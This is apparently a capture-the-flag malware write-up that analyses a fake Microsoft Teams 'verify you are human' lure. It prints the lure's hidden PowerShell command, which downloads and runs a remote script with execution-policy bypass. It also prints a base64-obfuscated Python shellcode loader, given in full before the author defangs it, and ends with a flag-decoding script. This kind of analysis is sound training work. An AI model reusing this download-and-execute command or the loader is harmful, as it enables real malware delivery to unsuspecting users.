



# Verify You Are Human - Day 01
**Category:** Malware
**Author:**  [John Hammond](https://www.youtube.com/@_JohnHammond) 

## Challenge Prompt 

My computer said I needed to update MS Teams, so that is what I have been trying to do...

...but I can't seem to get past this CAPTCHA!

### Questions 
- q16? 3 points: ``


> **CAUTION:** This is the Malware category. Please be sure to approach this challenge material within an isolated virtual machine.
> **NOTE** Some components of this challenge may be finicky with the browser-based connection. You can still achieve what you need to, but there may be some more extra steps than if you were to approach this over the VPN.  (i.e., "remove the port" when you need to... you'll know what I mean 😜)

## Solution

When visiting the site I was presented with a "Verify you are human" page impersonating Microsoft Teams.


Clicking the verify button populated the clipboard with a PowerShell command, and steps to run it.


The clipboard contained this PowerShell command:
```powershell
"C:\WINDOWS\system32\WindowsPowerShell\v1.0\PowerShell.exe" -Wi HI -nop -c "$UkvqRHtIr=$env:LocalAppData+'\'+(Get-Random -Minimum 5482 -Maximum 86245)+'.PS1';irm 'http://10.1.163.135/?tic=1'> $UkvqRHtIr;powershell -Wi HI -ep bypass -f $UkvqRHtIr"
```

Visiting the PowerShell URL returned the following script:


I then followed the second URL, which delivered a file that appeared as a PDF in the browser


I downloaded the "PDF" that was actually a ZIP archive (used the `file` command), consistent with the PowerShell script's extraction logic. Unzipping it revealed numerous files.  


From examining the extracted files, I found a base64 encoded string in a file named output.py:
```python
exec(base64.b64decode("aW1wb3J0IGN0eXBlcwoKZGVmIHhvcl9kZWNyeXB0KGNpcGhlcnRleHRfYnl0ZXMsIGtleV9ieXRlcyk6CiAgICBkZWNyeXB0ZWRfYnl0ZXMgPSBieXRlYXJyYXkoKQogICAga2V5X2xlbmd0aCA9IGxlbihrZXlfYnl0ZXMpCiAgICBmb3IgaSwgYnl0ZSBpbiBlbnVtZXJhdGUoY2lwaGVydGV4dF9ieXRlcyk6CiAgICAgICAgZGVjcnlwdGVkX2J5dGUgPSBieXRlIF4ga2V5X2J5dGVzW2kgJSBrZXlfbGVuZ3RoXQogICAgICAgIGRlY3J5cHRlZF9ieXRlcy5hcHBlbmQoZGVjcnlwdGVkX2J5dGUpCiAgICByZXR1cm4gYnl0ZXMoZGVjcnlwdGVkX2J5dGVzKQoKc2hlbGxjb2RlID0gYnl0ZWFycmF5KHhvcl9kZWNyeXB0KGJhc2U2NC5iNjRkZWNvZGUoJ3pHZGdUNkdIUjl1WEo2ODJrZGFtMUE1VGJ2SlAvQXA4N1Y2SnhJQ3pDOXlnZlgyU1VvSUwvVzVjRVAveGVrSlRqRytaR2dIZVZDM2NsZ3o5eDVYNW1nV0xHTmtnYStpaXhCeVRCa2thMHhicVlzMVRmT1Z6azJidURDakFlc2Rpc1U4ODdwOVVSa09MMHJEdmU2cWU3Z2p5YWI0SDI1ZFBqTytkVllrTnVHOHdXUT09JyksIGJhc2U2NC5iNjRkZWNvZGUoJ21lNkZ6azBIUjl1WFR6enVGVkxPUk0yVitacU1iQT09JykpKQpwdHIgPSBjdHlwZXMud2luZGxsLmtlcm5lbDMyLlZpcnR1YWxBbGxvYyhjdHlwZXMuY19pbnQoMCksIGN0eXBlcy5jX2ludChsZW4oc2hlbGxjb2RlKSksIGN0eXBlcy5jX2ludCgweDMwMDApLCBjdHlwZXMuY19pbnQoMHg0MCkpCmJ1ZiA9IChjdHlwZXMuY19jaGFyICogbGVuKHNoZWxsY29kZSkpLmZyb21fYnVmZmVyKHNoZWxsY29kZSkKY3R5cGVzLndpbmRsbC5rZXJuZWwzMi5SdGxNb3ZlTWVtb3J5KGN0eXBlcy5jX2ludChwdHIpLCBidWYsIGN0eXBlcy5jX2ludChsZW4oc2hlbGxjb2RlKSkpCmZ1bmN0eXBlID0gY3R5cGVzLkNGVU5DVFlQRShjdHlwZXMuY192b2lkX3ApCmZuID0gZnVuY3R5cGUocHRyKQpmbigp").decode('utf-8'))
```

Decoding the Base64 produced the following Python. I commented out the code that would execute the payload and replaced it with a safe print() so the script prints the reconstructed shellcode instead of running it.
```python
import ctypes
import base64

def xor_decrypt(ciphertext_bytes, key_bytes):
    decrypted_bytes = bytearray()
    key_length = len(key_bytes)
    for i, byte in enumerate(ciphertext_bytes):
        decrypted_byte = byte ^ key_bytes[i % key_length]
        decrypted_bytes.append(decrypted_byte)
    return bytes(decrypted_bytes)

shellcode = bytearray(xor_decrypt(base64.b64decode('zGdgT6GHR9uXJ682kdam1A5TbvJP/Ap87V6JxICzC9ygfX2SUoIL/W5cEP/xekJTjG+ZGgHeVC3clgz9x5X5mgWLGNkga+iixByTBkka0xbqYs1TfOVzk2buDCjAesdisU887p9URkOL0rDve6qe7gjyab4H25dPjO+dVYkNuG8wWQ=='), base64.b64decode('me6Fzk0HR9uXTzzuFVLORM2V+ZqMbA==')))
print(shellcode)
# ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))
# buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
# ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr), buf, ctypes.c_int(len(shellcode)))
# fn = functype(ptr)
# fn()
```

I disassembled the decoded shellcode with `objdump` and used ChatGPT to help summarize the output: 
> The disassembly (below) is mostly a sequence of push instructions loading constant DWORDs, followed by an XOR loop that decrypts those values in memory. The decrypted bytes are then copied into a local buffer and some cleanup is performed before returning — behavior consistent with a small shellcode unpacker / decryption stub

Used the following python to get the flag of `flag{d341b8d2c96e9cc96965afbf5675fc26}`
```python
# safe_decode_pushes.py
pushes = [
    0x8484d893,0x97c6c390,0x929390c3,0xc7c3c490,0x939c939c,
    0xc6c69cc0,0x939cc697,0xc19dc794,0x9196c1de,0xc2c4c9c3
]
xor_val = 0xA5A5A5A5

decoded = bytearray()
# reverse push order (stack makes last-push be lowest address)
for d in reversed(pushes):
    dec = d ^ xor_val
    decoded.extend(dec.to_bytes(4,'little'))

# trim at 0x26 (shellcode writes null at esp+0x26)
plaintext = decoded[:0x26].decode('latin-1', errors='replace')
print(plaintext)
